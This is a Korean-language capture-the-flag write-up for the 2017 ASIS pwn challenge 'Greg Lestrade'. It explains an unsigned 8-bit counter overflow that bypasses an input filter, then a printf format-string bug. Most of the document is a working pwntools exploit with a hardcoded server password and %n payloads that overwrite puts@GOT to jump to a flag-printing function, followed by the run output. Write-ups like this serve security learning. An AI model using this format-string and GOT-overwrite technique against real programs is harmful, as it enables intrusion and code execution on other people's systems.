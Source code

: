 # 2017 Asis - [PWN] Greg Lestrade

## Key words

- 64bit ELF
- integer overflow
- format string

## Solution

문제의 main 부분은 크게 상관이 없고 내부 함수에 핵심 내용이 들어 있습니다.

```c
__int64 sub_40091F()
{
  __int64 result; // rax@4
  __int64 v1; // rsi@8
  unsigned __int8 i; // [sp+Eh] [bp-412h]@1
  unsigned __int8 v3; // [sp+Fh] [bp-411h]@1
  char buf[1032]; // [sp+10h] [bp-410h]@1
  __int64 v5; // [sp+418h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  memset(buf, 0, 0x400uLL);
  puts("[*] Hello, admin ");
  printf("Give me your command : ");
  read(0, buf, 0x3FFuLL);
  v3 = strlen(buf) + 1;
  for ( i = 0; i < v3; ++i )
  {
    if ( buf[i] <= 96 || buf[i] > 122 )
    {
      puts("[*] for secure commands, only lower cases are expected. Sorry admin");
      result = 0LL;
      goto LABEL_8;
    }
  }
  printf(buf, buf);
  result = 0LL;
LABEL_8:
  v1 = *MK_FP(__FS__, 40LL) ^ v5;
  return result;
}
```

입력을 받고 입력을 검사한 뒤에 printf 에서 포멧 스트링이 발생합니다.

문제는 입력을 검사 하는 필터링 부분인데 자세히 보면 검사 하는 for 문의 형태가 unsigned int8로 되어 있습니다.

따라서 255개의 문자열을 만들면 v3가 0이 되어 필터링을 우회 할수가 있습니다. 그 이후로는 0x400876에 system("/bin/cat flag")를 해주는 매직 함수가 존재 하기 때문에 리턴 주소를 이쪽으로 변경해주면 됩니다.

## Solution Code

```python
#-*- coding:utf-8 -*-
from pwn import *

server = "146.185.132.36"
port   = 12431

secret_action = 0x400a2c
secret_action = 0x400876
r = remote(server, port)
print r.recv()

passwd = "7h15_15_v3ry_53cr37_1_7h1nk"
r.send(passwd)
print r.recvuntil("action\n")

puts_got = 0x602020

r.sendline("1")
print r.recv()

payload = "%40$n"
payload += "Z" * 0x8 # 08
payload += "%41$hhn"
payload += "Z" * (0x40 - 0x8) # 0x40
payload += "%42$hhn"
payload += "Z" * (0x76 - 0x40) # 0x76
payload += "%43$hhn"
payload += "Z" * (255 - len(payload)) + "\x00"
payload += p64(puts_got+3)
payload += p64(puts_got+1)
payload += p64(puts_got+2)
payload += p64(puts_got)

r.send(payload)
print r.recv()
print r.recv()
```

## Result

```
tbkim@ubuntu:~/working/jal2013/medium$ python sol_goblin.py
[+] Opening connection to 146.185.132.36 on port 12431: Done
[*] Welcome admin login system!


Login with your credential...
Credential :
[*] password : 7h15_15_v3ry_53cr37_1_7h1nk
[*] Closed connection to 146.185.132.36 port 12431
[+] Opening connection to 146.185.132.36 on port 12431: Done
[*] Welcome admin login system!


Login with your credential...
Credential : 0) exit
1) admin action

[*] Hello, admin

Give me your command :
ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZASIS{_ASIS_N3W_pwn_1S_goblin_pwn4b13!}
ASIS{_ASIS_N3W_pwn_1S_goblin_pwn4b13!}
```